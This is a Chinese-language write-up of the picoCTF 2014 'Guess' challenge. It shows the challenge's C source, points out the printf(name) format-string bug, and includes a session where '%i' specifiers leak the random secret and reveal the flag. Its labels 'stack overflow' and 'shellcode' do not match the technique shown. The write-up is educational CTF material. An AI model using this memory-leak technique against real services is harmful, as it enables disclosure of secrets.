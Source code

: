 # Pico CTF 2014 : Guess

## 原理

栈溢出。

## 目的

掌握PWN题目的大致流程。

## 环境

Ubuntu。

## 工具

gdb、objdump、python。

## 步骤

源代码可以下载，所以很容易发现：

    #include <stdio.h>
    #include <stdlib.h>

    char *flag = "~~FLAG~~";

    void main(){
        int secret, guess;
        char name[32];
        long seed;

        FILE *f = fopen("/dev/urandom", "rb");
        fread(&secret, sizeof(int), 1, f);
        fclose(f);

        printf("Hello! What is your name?\n");
        fgets(name, sizeof(name), stdin);

        printf("Welcome to the guessing game, ");
        printf(name);
        printf("\nI generated a random 32-bit number.\nYou have a 1 in 2^32 chance of guessing it. Good luck.\n");

        printf("What is your guess?\n");
        scanf("%d", &guess);

        if(guess == secret){
    	printf("Wow! You guessed it!\n");
    	printf("Your flag is: %s\n", flag);
        }else{
    	printf("Hah! I knew you wouldn't get it.\n");
        }
    }

在第19行有一个printf（名称），这显然导致一个格式字符串可利用的错误。

该程序的功能非常简单，它的作用是打开一个文件，从中读取标志，然后生成一个随机数字，并要求你的名字。 然后它要求你猜测它产生的数字。

显然滥用格式字符串错误，我们可以从内存中泄漏信息，从堆栈读取数字并回复正确的答案，此时我们返回标志。

在本地使用gdb的机器上，可以非常精确地发现数字存储在堆栈中的位置，这是％14 $ i。 这并不适用于真正的目标，很可能是因为二进制是在不同的系统下编译的，但是有一点暴力的强迫，我最终可以工作

    $ ./guess
    Hello! What is your name?
    %i %i %i %i
    Welcome to the guessing game, 32 -143569888 160419848 765327463

    I generated a random 32-bit number.
    You have a 1 in 2^32 chance of guessing it. Good luck.
    What is your guess?
    765327463
    Wow! You guessed it!
    Your flag is: xctf{xxxxx}

## **[总结]**

掌握好做PWN题目的大致思路，学会寻找修改shellcode。
